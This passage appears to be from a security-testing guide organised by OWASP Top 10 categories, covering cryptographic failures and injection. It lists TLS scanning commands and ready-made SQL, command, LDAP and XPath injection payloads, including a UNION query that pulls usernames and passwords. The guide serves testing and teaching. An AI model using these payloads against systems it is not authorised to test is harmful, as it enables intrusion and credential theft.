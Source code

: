 ### A02 - Cryptographic Failures
**Description**: Failures related to cryptography that lead to sensitive data exposure.

**Testing Techniques**:
```bash
# Check for weak SSL/TLS configuration
nmap --script ssl-enum-ciphers -p 443 example.com
testssl.sh https://example.com

# Check for unencrypted data transmission
# Use Burp Suite or OWASP ZAP to intercept traffic
# Look for sensitive data in HTTP (not HTTPS)

# Test for weak password hashing
# Check if passwords are stored in plain text or weak hashing
```

**Common Issues**:
- Hard-coded credentials
- Weak encryption algorithms
- Insufficient key management
- Unencrypted data transmission

### A03 - Injection
**Description**: User-supplied data is not validated, filtered, or sanitized.

**SQL Injection Testing**:
```sql
-- Basic SQL injection tests
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*
admin'--
admin' #
admin'/*

-- Union-based injection
' UNION SELECT 1,2,3--
' UNION SELECT username,password FROM users--

-- Time-based blind injection
'; WAITFOR DELAY '00:00:10'--
'; SELECT SLEEP(10)--

-- Boolean-based blind injection
' AND 1=1--
' AND 1=2--
```

**Other Injection Types**:
```bash
# Command injection
; ls -la
| whoami
`id`
$(whoami)

# LDAP injection
*)(|(objectClass=*))
*)(|(cn=*))

# XPath injection
' or '1'='1
' or 1=1 or '1'='1

```